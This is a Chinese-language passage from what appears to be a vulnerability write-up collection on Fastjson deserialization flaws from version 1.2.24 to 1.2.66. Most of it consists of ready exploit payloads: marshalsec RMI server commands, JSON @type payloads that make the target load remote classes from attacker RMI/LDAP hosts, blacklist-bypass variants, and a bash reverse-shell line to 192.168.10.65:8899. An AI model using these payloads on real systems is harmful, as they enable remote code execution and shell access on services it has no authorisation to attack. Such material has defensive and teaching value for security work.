

```
python -m SimpleHTTPServer 8080
```





开启 http 服务  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.10.65/#zcc" 9999
```





借助 marshalsec 项目启动 RMI 服务器，监听 9998 端口，并制定加载远程类 zcc.class:  

```
{
 "a":{
 "@type":"java.lang.Class",
 "val":"com.sun.rowset.JdbcRowSetImpl"
 },
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.10.65:9999/zcc",
 "autoCommit":true
 }
}
```



发送 payload, 别忘了改 Content-Type: application/json，可以看见成功写入，反弹 shell 的手段和上面 1.2.24 的一样：

```
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/8899 0>&1"
```







反弹 shell；  

```
{           
  "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
  "dataSourceName":"rmi://x.x.x.x:9999/rce_1_2_24_exploit",
  "autoCommit":true
}
```





### **2.3 fastjson<=1.2.41 漏洞详情**

第一个 Fastjson 反序列化漏洞爆出后，阿里在 1.2.25 版本设置了 autoTypeSupport 属性默认为 false，并且增加了 checkAutoType() 函数，通过黑白名单的方式来防御 Fastjson 反序列化漏洞，因此后面发现的 Fastjson 反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的的。com.sun.rowset.jdbcRowSetlmpl 在 1.2.25 版本被加入了黑名单，fastjson 有个判断条件判断类名是否以 "L" 开头、以 ";" 结尾，是的话就提取出其中的类名在加载进来，因此在原类名头部加 L，尾部加; 即可绕过黑名单的同时加载类。  

##### exp：

```
原类名：com.sun.rowset.JdbcRowSetImpl
绕过：LLcom.sun.rowset.JdbcRowSetImpl;;
```

autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false  

**2.4 fastjson<=1.2.42 漏洞详情**  

##### fastjson 在 1.2.42 版本新增了校验机制。如果输入类名的开头和结尾是 L 和; 就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层 L 和;。

```
{           
  "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
  "dataSourceName":"rmi://x.x.x.x:9999/exp",
  "autoCommit":true
}
```

##### exp：

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}
```

##### autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false）

**2.5 fastjson<=1.2.45 漏洞详情**  

前提条件：目标服务器存在 mybatis 的 jar 包，且版本需为 3.x.x 系列 < 3.5.0 的版本。  

使用黑名单绕过，org.apache.ibatis.datasource 在 1.2.46 版本被加入了黑名单。  

autoTypeSupport 属性为 true 才能使用。（fastjson>=1.2.25 默认为 false）  

exp：

```
{
 "a": {
 "@type": "java.lang.Class", 
 "val": "com.sun.rowset.JdbcRowSetImpl"
 }, 
 "b": {
 "@type": "com.sun.rowset.JdbcRowSetImpl", 
 "dataSourceName": "rmi://x.x.x.x:9999/exp", 
 "autoCommit": true
 }
}
```

### **2.6 fastjson<=1.2.47 漏洞详情**

对版本小于 1.2.48 的版本通杀，autoType 为关闭状态也可用。loadClass 中默认 cache 为 true，利用分 2 步，首先使用 java.lang.Class 把获取到的类缓存到 mapping 中，然后直接从缓存中获取到了 com.sun.rowset.jdbcRowSetlmpl 这个类，绕过了黑名单机制。  

##### exp：

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://x.x.x.x:999
9/exploit"}";
```

### **2.7 fastjson<=1.2.62 漏洞详情**

基于黑名单绕过 exp：  

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransacti
on":"ldap://192.168.80.1:1389/Calc"\}\}
```

### **2.8 fastjson<=1.2.66 漏洞详情**

也是基于黑名单绕过，autoTypeSupport 属性为 true 才能使用，（fastjson>=1.2.25 默认为 false）以下是几个 exp：  

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransacti
on":"ldap://192.168.80.1:1389/Calc"\}\}
```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
